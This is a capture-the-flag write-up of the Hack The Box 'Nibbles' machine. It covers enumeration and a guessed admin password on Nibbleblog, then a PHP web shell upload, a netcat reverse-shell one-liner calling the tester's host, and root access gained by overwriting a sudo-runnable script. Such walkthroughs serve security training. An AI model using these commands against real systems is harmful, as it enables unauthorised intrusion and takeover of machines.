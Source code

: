 ```yaml
---
title: HTB-Nibbles
draft: false
tags:
  - htb
  - linux
  - easy
  - sudoers
  - web-shell
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/Nibbles.png)

## Information Gathering

Rustscan finds SSH and HTTP running on the target:

`rustscan --addresses 10.129.91.159 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-2.png)

`whatweb` shows Apache is running on HTTP:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-3.png)

## Enumeration
### HTTP - TCP 80

Website shows "Hello world!" message:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image.png)

`/nibbleblog/` path is exposed from the source code:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-1.png)

`/nibbleblog/` is a blog but has no posts yet:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-4.png)

`searchsploit` shows that nibbleblog is vulnerable to  SQL injection and Aribitrary file upload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-5.png)

Using `feroxbuster` for directory bruteforcing, we see several interesting paths such as admin, admin.php, and content:

`sudo feroxbuster -u http://10.129.91.159/nibbleblog/ -n -x php /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-6.png)

Exploring around newly discovered file paths, `nibbleblog/content/private/config.xml` shows the username **admin**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-7.png)


`/admin.php` is a login page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-8.png)

Trying the the password `nibbles` for the `admin`, we managed to successfully login:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-9.png)

## Shell as nibbler
### Web Shell upload

Going to Plugins, we can see installed plugins, including **My image**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-10.png)

**my image** plugin provides feature for file upload. Let's try uploading **p0wny-shell.php**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-11.png)

`/nibbleblog/content/private/plugins/my_image/` shows that the php web shell was successfully uploaded:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-12.png)

Accessing image.php, we have the web shell as the nibbler:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-13.png)

In order to obtain a proper shell on terminal, we will lauch  the command below towards our local netcat listener:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.155 1337 >/tmp/f`

Now we have a shell as nibbler:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-14.png)


## Privesc: nibbler to root
### Sudoers

monitor.sh can be executed as the root without needing password:

`sudo -l`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-15.png)

Let's unzip personal.zip to access monitor.sh:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-16.png)

monitor.sh seems to be a server health monitoring script from tecmint.com:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-17.png)

Looking at the permission, we can overwrite the file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-18.png)

We will overwirte monitor.sh with bash command:

`echo "/bin/bash" > monitor.sh`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-19.png)


Before executing monitor.sh with sudo, we will spawn a interactive tty shell using python: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now executing overwritten monitor.sh file with sudo, we have the shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/nibbles/image-20.png)

## References
- https://github.com/dix0nym/CVE-2015-6967

